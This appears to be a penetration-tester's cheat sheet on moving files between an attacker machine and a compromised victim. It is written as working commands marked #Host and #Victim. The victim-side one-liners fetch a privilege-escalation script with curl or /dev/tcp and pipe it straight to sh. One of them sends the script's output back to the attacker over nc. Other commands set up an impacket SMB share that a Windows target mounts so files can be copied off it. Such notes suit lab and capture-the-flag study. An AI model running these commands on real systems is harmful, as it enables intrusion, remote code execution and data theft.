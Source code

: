 ```

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim


```










### Impacket
You can launch an SMB share on your Kali machine with impacket
```
impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support -username User -password [PASS]

impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support
```


#### Example 1
```
# start a share in kali
impacket-smbserver myShare . -smb2support -username stephanie -password 'P@ssword!'

# Then mount this share on the windows machine with:
net use X: \\[IP]\[SHARE NAME]

# to delete share
net use X: /delete

```

After that it's really easy because you can just copy/paste things from the windiws target and have it on your Kali.




#### Example 2
```
impacket-smbserver share /home/[USERNAME]/Desktop -smb2support


# On target machine open File Explorer an in the searchbar put:
\\[ATTACKER IP]


```
